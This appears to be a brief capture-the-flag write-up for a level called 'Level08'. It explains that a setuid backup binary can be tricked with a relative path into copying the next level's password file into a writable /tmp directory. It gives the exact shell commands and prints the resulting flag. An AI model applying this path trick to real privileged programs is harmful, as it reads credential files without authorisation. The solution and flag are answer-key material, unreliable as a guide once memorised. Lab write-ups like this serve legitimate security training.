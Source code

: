 ## Level08
## Source Code
![level08.png](level08.png)
## Walkthrough
- The binary create a backup file where it write the content of the argv[1]
- We need to do that in a path where with have right.
## Answer
    cd /tmp
    mkdir backups
    touch backups/.log
    chmod 777 backups/.log
    mkdir -p home/users/level09
    /home/users/level08/level08 ../home/users/level09/.pass
    cat home/users/level09/.pass
## Flag

	fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S